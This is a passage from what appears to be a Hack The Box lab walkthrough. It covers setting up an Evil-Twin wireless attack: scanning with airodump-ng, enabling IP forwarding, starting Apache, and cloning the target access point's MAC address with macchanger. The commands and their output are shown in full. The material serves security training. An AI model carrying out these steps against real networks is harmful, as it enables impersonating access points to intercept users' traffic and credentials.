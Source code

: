Once enabled, students need to use `airodump-ng` to scan for wireless networks, providing the `-w` option to save the results of the scan for later analysis.

Code: shell

```shell
sudo airodump-ng wlan0mon -w HTB -c 1
```

```
wifi@twins:~$ sudo airodump-ng wlan0mon -w HTB -c 1

01:31:59  Created capture file "HTB-01.cap".

 CH  1 ][ Elapsed: 48 s ][ 2025-03-06 01:32 ]

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 52:CD:8C:79:AD:87  -28 100      495       24    0   1   54   WPA2 TKIP   PSK  HTB-Wireless                                                                                                                      

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 52:CD:8C:79:AD:87  02:00:00:00:01:00  -29   54 -54      0       20  
```

Students will discover the `HTB-Wireless` network, along with a single client connected to it.

Now, students need to prepare to perform an Evil-Twin attack, enabling IP forwarding and starting Apache.

Code: shell

```shell
sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
sudo service apache2 start
```

```
wifi@twins:~$ sudo sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
wifi@twinsL~$ sudo service apache2 start
```

Students also need to configure a valid IP address and MAC address for `wlan1`, which will host the Evil-Twin. Students need to choose a MAC address that it is similar to that of the `HTB-Wireless` access point (e.g., changing only the last digit).

Code: shell

```shell
sudo ifconfig wlan1 192.168.0.1/24
sudo ifconfig wlan1 down
sudo macchanger -m 52:CD:8C:79:AD:86 wlan1
sudo ifconfig wlan1 up
```

```
wifi@twins:~$ sudo ifconfig wlan1 192.168.0.1/24
wifi@twins:~$ sudo ifconfig wlan1 down
wifi@twins:~$ sudo macchanger -m 52:CD:8C:79:AD:86 wlan1

Current MAC:   02:00:00:00:03:00 (unknown)
Permanent MAC: 02:00:00:00:03:00 (unknown)
New MAC:       52:cd:8c:79:ad:86 (unknown)

wifi@twins:~$ sudo ifconfig wlan1 up
```
